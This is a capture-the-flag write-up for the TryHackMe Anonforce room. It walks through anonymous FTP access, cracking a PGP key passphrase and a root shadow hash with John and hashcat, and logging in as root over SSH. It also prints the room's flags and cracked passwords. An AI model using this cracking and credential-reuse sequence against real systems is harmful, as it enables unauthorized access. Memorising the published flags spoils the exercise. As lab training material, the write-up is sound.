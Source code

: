 ## Anonforce - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/bsidesgtanonforce)

**IP: 10.10.172.195**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: Linux Privilege Escalation <br>

**Tools Used**: Nmap, John The Ripper

**Author**: <br>

mauzware aka mauzinho <br>
[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

- Start with Nmap scan
  ```
  nmap -sC -sV -T5 -p- 10.10.172.195 
  
  22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
  21/tcp open  ftp     vsftpd 3.0.3
  | ftp-syst: 
  |   STAT: 
  | FTP server status:
  |      Connected to ::ffff:10.21.127.185
  |      Logged in as ftp
  |      TYPE: ASCII
  |      No session bandwidth limit
  |      Session timeout in seconds is 300
  |      Control connection is plain text
  |      Data connections will be plain text
  |      At session startup, client count was 1
  |      vsFTPd 3.0.3 - secure, fast, stable
  |_End of status
  | ftp-anon: Anonymous FTP login allowed (FTP code 230)
  | drwxr-xr-x    2 0        0            4096 Aug 11  2019 bin
  | drwxr-xr-x    3 0        0            4096 Aug 11  2019 boot
  | drwxr-xr-x   17 0        0            3700 Apr 30 12:01 dev
  | drwxr-xr-x   85 0        0            4096 Aug 13  2019 etc
  | drwxr-xr-x    3 0        0            4096 Aug 11  2019 home
  | lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img -> boot/initrd.img-4.4.0-157-generic
  | lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img.old -> boot/initrd.img-4.4.0-142-generic
  | drwxr-xr-x   19 0        0            4096 Aug 11  2019 lib
  | drwxr-xr-x    2 0        0            4096 Aug 11  2019 lib64
  | drwx------    2 0        0           16384 Aug 11  2019 lost+found
  | drwxr-xr-x    4 0        0            4096 Aug 11  2019 media
  | drwxr-xr-x    2 0        0            4096 Feb 26  2019 mnt
  | drwxrwxrwx    2 1000     1000         4096 Aug 11  2019 notread [NSE: writeable]
  | drwxr-xr-x    2 0        0            4096 Aug 11  2019 opt
  | dr-xr-xr-x   92 0        0               0 Apr 30 12:01 proc
  | drwx------    3 0        0            4096 Aug 11  2019 root
  | drwxr-xr-x   18 0        0             540 Apr 30 12:01 run
  | drwxr-xr-x    2 0        0           12288 Aug 11  2019 sbin
  | drwxr-xr-x    3 0        0            4096 Aug 11  2019 srv
  | dr-xr-xr-x   13 0        0               0 Apr 30 12:01 sys
  |_Only 20 shown. Use --script-args ftp-anon.maxlist=-1 to see all.
  ```
  
- `notread [NSE: writeable]` looks suspicious, also log in as Anonymous with FTP.

---

## 🧍 User Privilege Escalation

- You can get user flag after logging in with FTP
  ```
  ftp 10.10.172.195
  Anonymous
  no password
  ```
  
- After getting in, look a bit and you'll find the flag `606083fd33beb1284fc51f411a706af8`, I also downloaded it to my Kali.
  ```
  cd home
  cd melodias
  get user.txt

  cat user.txt
  606083fd33beb1284fc51f411a706af8
  ```
  
- Now moving to escalation for root flag.

---

## 👑 Root Privilege Escalation

- When you check `/notread` you'll find 2 files inside: `private.asc` and `backup.pgp`, download them both. `private.asc` is PGP Private Key and `backup.pgp` is encypted file you have to decrypt. Lets work on that!
  
- Will convert `private.asc` to hash and crack it with John and then I will use cracked passphrase to decrypt `backup.pgp`
  ```
  gpg2john private.asc > keyhash.txt
  
  john --wordlist=/rockyou.txt keyhash.txt
  xbox360          (anonforce) 
  
  gpg --import private.asc     
  gpg: /.gnupg/trustdb.gpg: trustdb created
  gpg: key ABCDE1234FGHI567: public key "anonforce <melodias@anonforce.nsa>" imported
  gpg: key ABCDE1234FGHI567: secret key imported
  gpg: key ABCDE1234FGHI567: "anonforce <melodias@anonforce.nsa>" not changed
  gpg: Total number processed: 2
  gpg:               imported: 1
  gpg:              unchanged: 1
  gpg:       secret keys read: 1
  gpg:   secret keys imported: 1
  ```
  
- Awesome, passphrase is `xbox360` use it for both import and decryption. Now let's decrypt `backup.pgp` and check the content.
  ```
  gpg --output decrypted.txt --decrypt backup.pgp 
  gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
  gpg: encrypted with 512-bit ELG key, ID ABCDE1234FGHI567, created 2019-08-12
        "anonforce <melodias@anonforce.nsa>"

  cat decrypted.txt
  root:$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0:18120:0:99999:7:::
  daemon:*:17953:0:99999:7:::
  bin:*:17953:0:99999:7:::
  sys:*:17953:0:99999:7:::
  sync:*:17953:0:99999:7:::
  games:*:17953:0:99999:7:::
  man:*:17953:0:99999:7:::
  lp:*:17953:0:99999:7:::
  mail:*:17953:0:99999:7:::
  news:*:17953:0:99999:7:::
  uucp:*:17953:0:99999:7:::
  proxy:*:17953:0:99999:7:::
  www-data:*:17953:0:99999:7:::
  backup:*:17953:0:99999:7:::
  list:*:17953:0:99999:7:::
  irc:*:17953:0:99999:7:::
  gnats:*:17953:0:99999:7:::
  nobody:*:17953:0:99999:7:::
  systemd-timesync:*:17953:0:99999:7:::
  systemd-network:*:17953:0:99999:7:::
  systemd-resolve:*:17953:0:99999:7:::
  systemd-bus-proxy:*:17953:0:99999:7:::
  syslog:*:17953:0:99999:7:::
  _apt:*:17953:0:99999:7:::
  messagebus:*:18120:0:99999:7:::
  uuidd:*:18120:0:99999:7:::
  melodias:$1$xDhc6S6G$IQHUW5ZtMkBQ5pUMjEQtL1:18120:0:99999:7:::
  sshd:*:18120:0:99999:7:::
  ftp:*:18120:0:99999:7:::
  ```

- Before doing SSH first crack the root hash and that's it, you can log in with SSH as root.
  ```
  echo "$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0" > root.hash
  john --wordlist=/rockyou.txt root.hash
  hikari

  hashcat -m 1800 root.hash /rockyou.txt 
  $6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0:hikari
  ```

- Let's get the flag, log in with SSH and `cat` the flag.
  ```
  ssh root@10.10.172.195
  hikari

  whoami
  root
  cat /root/root.txt
  f706456440c7af4187810c31c6cebdce
  ```
  
---

## 🏁 Flags

- **User Flag**: `606083fd33beb1284fc51f411a706af8`
- **Root Flag**: `f706456440c7af4187810c31c6cebdce`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Decrypting .pgp file?`

- What did I learn?
  `Just sharpening my skills.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
